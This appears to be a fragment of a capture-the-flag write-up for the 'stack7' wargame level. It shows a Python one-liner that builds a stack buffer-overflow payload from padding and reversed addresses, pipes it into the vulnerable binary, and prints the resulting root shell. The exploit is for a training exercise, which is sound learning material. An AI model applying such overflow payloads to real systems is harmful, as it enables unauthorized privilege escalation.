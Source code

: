 ```bash
python -c 'print "A"*80 + "\x08\x04\x85\xf9"[::-1] + "\xbf\xff\xf9\x7b"[::-1]' > /tmp/file

./stack7 < /tmp/file
input path please: got path AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA{���
# id
uid=1001(user) gid=1001(user) euid=0(root) groups=0(root),1001(user)
```
